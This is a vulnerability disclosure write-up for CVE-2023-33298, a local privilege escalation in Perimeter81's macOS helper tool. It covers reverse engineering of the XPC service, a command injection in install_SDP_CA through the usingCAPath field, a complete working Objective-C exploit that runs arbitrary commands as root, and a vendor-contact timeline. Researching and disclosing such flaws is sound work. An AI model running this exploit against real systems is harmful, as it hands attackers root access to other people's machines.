Table of Contents
Introduction
Today we will be analyzing CVE-2023-33298 which is Local Privilege Escalation inside the Perimeter81 macOS application. We will be exploiting XPC service misconfiguration along with the Command Injection vulnerability
to gain root privileges.
Analysis
Perimeter81 adds an entry to LaunchDaemons, and we can examine the content of the com.perimeter81.osx.HelperTool.plist located inside /Library/LaunchDaemons/ directory.

We can see that the key for MachServices is dictionary containing com.perimeter81.osx.HelperTool. This is the name of mach service which is exposed by the
com.perimeter81.osx.HelperTool binary.
If we now load /Library/PrivilegedHelperTools/com.perimeter81.osx.HelperTool inside the Hopper and search for xpc_connection_create_mach_service we can
confirm that the function is called with com.perimeter81.osx.HelperTool as first argument.

From the image, we can also see that it calls xpc_connection_set_event_handler with &var_40. We can read documentation and
conlude that the structure contains isa pointer (which type of block is this), followed by two ints(flags and reserved) and finally void (*invoke)(void *, ...); function pointer
which points to the actualy compiled block body.
Inside the disassembly, we can see that *(&var_40 + 0x10) = sub_1002169d7; points to sub_1002169d7. Let’s now examine this function.

Inside the else we can see another call to xpc_connection_set_event_handler with the block that has invoke pointer set to sub_100216a98. Double clicking on this sub shows the following code.

Based on this function we can conclude the following:
- We need to send the dictionary
typeinside the dictionary needs to berpcorhelper_tool_rpc.- Function
sub_100216d6cis called in multiple branches so we will check what that is - We can also see that we have a line
r12 = xpc_dictionary_get_string(r13, "rpc");followed by the check whether r12 is equal to start_connection so we can conclude that the key rpc will contain some kind of function what to do.
Inspecting the sub_100216d6c function shows that it calls -[SDHelperTool handleTargetServiceCommand:withRequest:withReply:].

Since this method is a bit bigger, we will show only the beginning and the end of the function which are interesting.

We can see that it tries to extract the parameters and target_service keys. If target_service is NULL, it jumps to loc_10020a119.

We can see that it saves @selector(generalInvoker) inside the rax register and then jumps back to loc_10020a1c0. loc_10020a1c0 just calls handleXPCServiceCommand:withParameters:withReply.

If we search for “generalInvoker” in Hopper we can see that we have a match for -[SDHelperTool setup_GeneralInvoker] which allocates new object of class SDHelperTool_InvokerGeneral.

Searching for DHelperTool_InvokerGeneral reveals a lot of methods. After digging around a bit, I have found install_SDP_CA:withReply: which calls security add-trusted-cert -d -r trustRoot -k /Library/Keychains/System.keychain %@ with the value from dictionary under the key usingCAPath. This is typical command injection where we can simply append ; followed by the command we want to execute.


So to recap, our exploit should do the following:
- call
xpc_connection_create_mach_servicewithcom.perimeter81.osx.HelperToolas a name - create a dictionary for properties with the key usingCAPath and value as ; some command to run as root
- create another dictionary that will be our message with
typeashelper_tool_rpc,rpcasinstall_SDP_CA, and keyparametersset to the previous dictionary - send the message
Full exploit
Full exploit looks like the following:
#import <Foundation/Foundation.h>
#define NAME "com.perimeter81.osx.HelperTool"
int main(int argc, const char **argv) {
if (argc != 2) {
printf("missing cmd to execute\n");
exit(1);
}
xpc_connection_t conn = xpc_connection_create_mach_service(NAME, NULL, 0);
xpc_connection_set_event_handler(conn, ^(xpc_object_t object){
NSLog(@"client received event: %s", xpc_copy_description(object));
});
xpc_connection_resume(conn);
const char *c = argv[1];
char cmd[250];
sprintf(cmd, "; %s", c);
// create dictionary to hold our parameters
// method name and its parameters
xpc_object_t params = xpc_dictionary_create(NULL, NULL, 0);
xpc_dictionary_set_string(params, "usingCAPath", cmd);
// create dictionary to send over xpc
xpc_object_t message = xpc_dictionary_create(NULL, NULL, 0);
xpc_dictionary_set_string(message, "type", "helper_tool_rpc");
xpc_dictionary_set_string(message, "rpc", "install_SDP_CA");
xpc_dictionary_set_value(message, "parameters", params);
xpc_connection_send_message_with_reply(conn, message, dispatch_get_main_queue(), ^(xpc_object_t object){
NSLog(@"Executed cmd: \"%s\"\n", c);
});
// create run loop so we can get async result for our command, otherwise the exploit would exit after sending the
// message
dispatch_main();
return 0;
}

Timeline
| Date | Action |
|---|---|
| 17 March 2023 | Sent report to Perimeter81 |
| 21th March 2023 | Asked for an update, no reply |
| 10th April 2023 | Asked for an update once more, got response that it was wrongly sidetracked |
| 19th April 2023 | Sent mail to see whether they have investigated it and working on it |
| 10th May 2023 | Another mail and got no response |
| 16th May 2023 | Contacted VINCE to coordinate disclosure |
VINCE tried to contact them multiple times without success, so after more than three months I have decided to disclose the vulnerability.